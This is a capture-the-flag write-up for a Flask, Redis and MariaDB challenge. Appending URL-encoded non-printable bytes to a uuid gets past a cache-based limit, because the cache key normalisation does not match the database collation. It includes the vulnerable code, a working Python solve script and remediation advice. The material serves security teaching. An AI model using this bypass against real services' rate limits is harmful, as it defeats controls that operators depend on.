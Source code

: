 # Cache It To Win It
## Summary
This challenge uses URL byte encodings to avoid a simple REDIS cache, allowing the attacker to execute the python code related to a path more often than intended.

**Artifacts:**
* `app.py`: vulnerable Flask server defined in a python file
* `docker-compose.yaml`: Docker compose file to spin up the Redis cache, MariaDB SQL database, and Flask server, and set up environment variables such as the flag.
* `Dockerfile`: the Dockerfile defining the Flask server environment.
* `init.sql`: initial SQL to create the necessary tables in the database.
* `requirements.txt`: Python requirements file
* `solve.py`: Python script to solve the challenge
* `test.py`: Python scripts to test python utf-8 implementation.


## Context

The `Cache It To Win It` challenge authors provide a website that serves as the challenge. They also provide a copy of the server source code, in the form of a Python file (`app.py`).

The server is a simple Flask server, which contains backend logic and serves the user a barebones frontend.

The site has very little user input, just assigning the user a unique user ID, then allowing them to check if they "won."

![Challenge Image](images/landing_page.png)

When the user clicks the link to check if they are a winner, they are directed to this page:

![Challenge Image](images/you_won.png)

Returning via the link and and checking again if you won does not decrement the counter, instead you get a cache hit in the response headers. 

Looking at the flask server, we can see the snippet that is handling all of this logic

```python
def normalize_uuid(uuid: str):
    uuid_l = list(uuid)
    i = 0
    for i in range(len(uuid)):
        uuid_l[i] = uuid_l[i].upper()
        if uuid_l[i] == "-":
            uuid_l.pop(i)
            uuid_l.append(" ")

    return "".join(uuid_l)


def make_cache_key():
    return f"GET_check_uuids:{normalize_uuid(request.args.get('uuid'))}"[:64]  # prevent spammers from filling redis cache


check_bp = Blueprint("check_bp", __name__)


@check_bp.route("/check")
@cache.cached(timeout=604800, make_cache_key=make_cache_key)
def check():
    user_uuid = request.args.get("uuid")
    if not user_uuid:
        return {"error": "UUID parameter is required"}, 400

    run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))
    res = run_query("SELECT * FROM users WHERE id = %s;", (user_uuid,))
    g.cache_hit = False
    if "affected_rows" not in res:
        print("ERRROR:", res)
        return "Error"
    if res["affected_rows"] == 0:
        return "Invalid account ID"
    num_wins = res["result"][0]["value"]
    if num_wins >= 100:
        return f"""CONGRATS! YOU HAVE WON.............. A FLAG! {os.getenv("FLAG")}"""
    return f"""<p>Congrats! You have won! Only {100 - res["result"][0]["value"]} more wins to go.</p>
    <p>Next attempt allowed at: {(datetime.datetime.now() + datetime.timedelta(days=7)).isoformat(sep=" ")} UTC</p><p><a href="/">Go back to the homepage</a></p>"""
```

Every time a request is sent to the /check path, the server will check for a cached response based on the return of the make_cache_key function. That function takes in your uuid supplied, and returns a normalized version.

If there is a cache hit, the check() function will not run. If there is a cache miss, the check function will run `run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))`. This increments the counter in the row of the database with a matching uuid.

A query is then run to get the value of that counter, and if that row exists, and the counter is greater than or equal to 100, it prints the flag.

So the goal of this exploit becomes clear, find a way to run the check() code 100 times where the sql database interprets the same uuid, while making the cache not see the same uuid and thus filter the requests.

## Vulnerability

When an SQL server interprets strings,  it will use a collation type, which essentially defines how it decides if two strings are equal, and how to sort them if not. There are normally rules related to how it handles capital letters, whitespace, both generally and trailing, and the full utf character set with accents and the like.

By default, this mariaDB database uses the utf8mb4_uca1400_ai_ci collation. This collation is case insensitive (ci) and accent insensitive (ai).

The normalize_uuid function does capitalize every letter before saving in the cache, so we will not be able to just capitalize a letter to solve this, but it has no way to deal with accents. By default, python will both deal with the full utf-8 characterset, and allow nonprintable ascii chars in strings (whose format looks like "\01"). When a string containing one of these is passed to normalize-uuid, we can observe what happens with the test.py script:

```
b'Caf\xc3\xa9' normalized is b'CAF\xc3\x89'
b'cafe\xcc\x81' normalized is b'CAFE\xcc\x81'
b'cafe\x01' normalized is b'CAFE\x01'
b'cafe\x00' normalized is b'CAFE\x00'
```

The non-printable characters are kept, and thus will be used as part of the cache by the flast application.
## Exploitation
**Exploit overview**: The exploit uses the fact that the collation can map several different strings to the same value for purposes of the SQL database.

**Input restrictions**:
We are sending strings over the web, so we have to url-encode them. Additionally, the make_cache_key function limits the length of the string to 64 bytes, so any changes beyond 64 bytes will not be seen by the cache.

**Exploit Description**: 
Dealing with which ascii chars make valid accents is a bit of a pain, and there is little in the way of technical specifications that I could find online about this collation, so before we launch into a full utf-8 adventure, lets just try to append some random url-encoded non-printable characters to the end of the query string to see what happens.

```
https://cache-it-to-win-it.chall.lac.tf/check?uuid=a23d3e4b-bde2-4211-bf53-df0ddc42d301%01

Congrats! You have won! Only 98 more wins to go.
```

This worked! By simply appending  %01 to the uuid, we have avoided the cache, and the counter decremented by 1.

We can just append many different nonprintable chars, solo or in combination, so that we decrement this counter all the way down to 0, and receive the flag!

To automate this exploit, we can create a little script which essentially pulls the users unique UUID from the first request, then repeatedly appends incrementing nonprintable ascii characters to the end, and sends it to the /check endpoint until it sends the flag back.

```python
import requests
from bs4 import BeautifulSoup
server = "https://cache-it-to-win-it.chall.lac.tf/"
response = requests.get(server)
soup = BeautifulSoup(response.text, 'html.parser')
# getting the uuid string
uuid_str = soup.title.string
response = requests.get(server + "check?uuid=" + uuid_str)
add = ""
counter = 0
print("uuid:", uuid_str)
#iterating through nonprintable chars. We have to use 2 so the total gets to 100.
while "FLAG" not in response.text:
    add = "%" + hex(counter % 31)[2:].zfill(2) + "%" + hex(counter // 31)[2:].zfill(2)
    response = requests.get(server + "check?uuid=" + uuid_str + add)
    counter += 1
print(response.text)
```

## Remediation

The best way to avoid this issue is to use some other form of limiting besides a cache. Something like a last_edited in the sql database that would be updated when the counter is decremented, and then checked before allowing the counter to be decremented again would be a more robust solution, and could even be used in combination with a cache to speed up response times.

If a cache must be used, then extreame care has to be taken to ensure that the cache key is exactly synonymous with the database key. This can be done by using the same collation type for both, or otherwise ensuring that the cache key is always the same as the database key.

## Configuration Notes

Run docker-compose up in the directory with the docker compose file to run the challenge. It will spin up docker containers for the Flask server, database, and redis cache.

Execute the target script against a local container by changing the server variable to point at localhost and the defined IP (by default 5000 in the docker compose.) So if you keep the defaults and that port is open, the server variable should be `http://localhost:5000/`

Then, just running the script should quickly solve the challenge. It will take a bit longer to solve it against a remote box as the connection latency of sending 100 requests is the biggest bottleneck with this exploit.